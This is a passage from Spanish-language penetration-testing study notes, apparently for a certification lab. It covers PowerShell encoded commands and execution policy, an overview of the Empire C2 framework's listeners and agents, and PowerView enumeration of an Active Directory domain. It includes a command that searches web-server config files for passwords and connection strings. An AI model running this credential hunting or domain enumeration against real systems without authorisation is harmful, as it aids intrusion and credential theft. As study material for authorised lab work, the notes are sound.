<p align="center"></p>
<p align="center"><sub><strong>Parámetros codificados.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ayuda detallada de cmdlets.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Selección y ordenación de objetos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Procesos y alias.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Módulos cargados.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Módulos disponibles.</strong></sub></p>

</details>

### Windows PowerShell y PowerShell 7

`powershell.exe` suele corresponder a Windows PowerShell; `pwsh.exe` a PowerShell moderno. En Windows de 64 bits, `System32` contiene binarios nativos de 64 bits y `SysWOW64` los de 32 bits. El comportamiento de redirección de un proceso de 32 bits también influye en la ruta efectiva.

`Get-WmiObject` pertenece a Windows PowerShell y no está disponible en PowerShell 7; para inventario moderno usa `Get-CimInstance`. No asumas que el motor v2 esté instalado o que puedas bajarlo a cualquier versión con `-Version`.

<details>
<summary><strong>📸 Arquitectura del proceso PowerShell</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Arquitectura del proceso.</strong></sub></p>

</details>

### ExecutionPolicy y codificación

```powershell
Get-ExecutionPolicy -List
$Texto = 'Write-Output "ecppt-lab"'
$Bytes = [Text.Encoding]::Unicode.GetBytes($Texto)
$Base64 = [Convert]::ToBase64String($Bytes)
powershell.exe -NoProfile -EncodedCommand $Base64
```

`-EncodedCommand` usa texto codificado, habitualmente UTF-16LE para `powershell.exe`; Base64 **no es cifrado ni evasión**. La política de ejecución afecta a scripts según el ámbito, pero no es una frontera de seguridad. `-ExecutionPolicy Bypass` tampoco desactiva AMSI, Defender, AppLocker o WDAC. Consulta la [documentación de Microsoft](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies).

<details>
<summary><strong>📸 Políticas de ejecución de PowerShell</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Política de ejecución.</strong></sub></p>

</details>

### Buscar sin recorrer todo el disco

```powershell
Get-ChildItem 'C:\inetpub\wwwroot' -Recurse -File -ErrorAction SilentlyContinue |
    Where-Object Extension -in '.config','.xml','.ini','.txt' |
    Select-String -Pattern 'password','connectionString','username'
Get-Content 'C:\ruta\config.txt'
Get-Acl 'C:\ruta\archivo.exe' | Format-List
```

Limita la búsqueda a directorios relevantes para la aplicación o el usuario. Una cadena `password` puede ser el nombre de una variable; verifica si contiene un secreto utilizable y en qué servicio.

<a id="empire"></a>
### Empire y listeners

Empire distingue servidor, cliente, listeners, agentes y módulos. En paquetes que exponen esos comandos, `powershell-empire server` inicia el servidor y `powershell-empire client` conecta el cliente; abrir dos servidores no sustituye ese flujo. Starkiller es una interfaz que debe ser compatible con la versión de Empire.

| Elemento | Qué representa |
|---|---|
| Listener | Configuración que recibe comunicaciones de agentes |
| Stager | Componente de arranque, cuando ese flujo lo utiliza |
| Agent | Sesión conectada que opera con un contexto concreto |
| Module | Función ejecutada mediante el framework |

La IP de un listener debe ser alcanzable por quien se conecta; no es automáticamente la IP de la máquina objetivo. Las rutas `usemodule` y nombres de listeners cambian entre versiones. Consulta el [proyecto de Empire](https://github.com/BC-SECURITY/Empire) en lugar de dar por vigentes comandos de capturas antiguas.

<details>
<summary><strong>📸 Empire: listeners, agentes y módulos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Panel de listeners.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Panel de configuración.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Listado de agentes.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información del host.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Consulta de información del host.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de conectividad.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Integración histórica de frameworks.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración histórica de un módulo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Rutas y proxy del framework.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="active-directory"></a>
## 🏢 Active Directory: PowerView, BloodHound y Mimikatz

En estos apuntes, PowerView consulta objetos y relaciones del dominio; BloodHound ayuda a representarlas; Mimikatz permite estudiar material de autenticación y el contexto de una sesión Windows. Diferencia siempre **identidad, permisos y acceso confirmado**.

<a id="ad-inicial"></a>
### Identidad y objetos del dominio

En el Windows del laboratorio:

```powershell
whoami
hostname
whoami /all
whoami /priv
net user /domain
```

Con el módulo ActiveDirectory disponible:

```powershell
Get-ADUser -Filter *
Get-ADGroup -Filter *
Get-ADOrganizationalUnit -Filter *
```

Una cuenta local pertenece al equipo; una cuenta de dominio pertenece a Active Directory. Administrar un equipo no equivale a administrar el dominio. La pertenencia a un grupo, la elevación del proceso y los privilegios del token son datos distintos.

<a id="powerview"></a>
### PowerView

Los nombres `Get-Net*` de las capturas corresponden a la familia de PowerView utilizada en los apuntes. Confirma las funciones de la copia cargada; no son cmdlets nativos de Windows.

```powershell
. .\PowerView.ps1
```

#### Dominio, SID, políticas y controladores

```powershell
Get-Domain
Get-Domain -Domain lab.example
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy).SystemAccess
(Get-DomainPolicy).KerberosPolicy
Get-DomainController
Get-DomainController -Domain lab.example
```

| Consulta | Qué interpretar |
|---|---|
| Dominio y SID | Ámbito de las identidades consultadas |
| `SystemAccess` | Valores de política relacionados con acceso y contraseñas |
| `KerberosPolicy` | Valores de política de Kerberos |
| Controlador | Equipo que presta los servicios del dominio |

La política consultada aporta contexto; las políticas granulares pueden cambiar la aplicable a una cuenta concreta. Registra el umbral y los intentos anteriores antes de cualquier prueba de contraseñas.

<details>
<summary><strong>📸 PowerView: dominio, SID, políticas y DC</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Información del dominio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Selección del dominio consultado.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>SID del dominio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Política del dominio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Parámetros de cuentas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Política Kerberos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Controladores de dominio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto del controlador consultado.</strong></sub></p>

</details>

<a id="ad-usuarios"></a>
#### Usuarios y atributos

```powershell
Get-DomainUser
Get-DomainUser | Select-Object SamAccountName,ObjectSid
Get-DomainUser -Identity alumno
Get-DomainUser -Identity alumno -Properties DisplayName,MemberOf,ObjectSid,UserAccountControl |
    Format-List
Get-DomainUser | Select-Object -ExpandProperty SamAccountName | Out-File usuarios.txt
```

`SamAccountName` identifica el nombre de inicio de sesión; `MemberOf` recoge pertenencias directas y no sustituye al análisis de grupos anidados. `UserAccountControl` contiene atributos de la cuenta, no los privilegios del token del proceso actual.

<details>
<summary><strong>📸 PowerView: usuarios y autenticación</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de usuarios.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una prueba de autenticación.</strong></sub></p>

</details>

<details>
<summary><strong>📸 PowerView: atributos de usuarios</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de cuentas.</strong></sub></p>

